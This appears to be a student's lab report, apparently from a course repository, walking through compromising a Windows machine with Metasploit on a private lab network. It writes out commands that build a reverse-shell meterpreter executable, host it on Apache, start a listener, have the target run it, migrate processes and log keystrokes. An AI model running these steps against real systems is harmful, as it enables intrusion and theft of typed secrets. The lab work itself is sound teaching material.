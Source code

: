 ## Name: GIFTSON RAJARATHINAM N
## Reg.No: 212222233002


# Compromising windows using Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/user-attachments/assets/2f69d906-0b7a-4878-8f96-272bacc10e00)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/user-attachments/assets/88b39238-d2b6-447d-bc46-08dc30ccab8e)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT
![image](https://github.com/user-attachments/assets/5034838b-e3d2-4f9f-b645-21b5c8ecdcba)

Start apache server
sudo systemctl apache2 start
## OUTPUT
![image](https://github.com/user-attachments/assets/7cb75fb5-6fa0-449a-8b21-e8f8b2fb6fcf)

Check the status of apache2
## OUTPUT
![image](https://github.com/user-attachments/assets/d8909df4-12f7-4a3a-888f-f8891c81c5e9)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/9d3f4d70-6d31-454a-81e8-105eb0224090)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/ffd46926-d6b7-4ad2-8df4-26cd01a10af1)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/e92d7605-0cdd-4a60-9fbc-f87490d37a9f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/2094ca08-d751-4add-af92-0ab1d0d1da53)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/user-attachments/assets/e61066d7-12fb-4942-9f01-3906941f7c47)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/fd50817c-df2b-40e2-bcb3-920d2baa5da0)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/a5ce96df-cd40-4772-b531-90cf2462d6bf)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
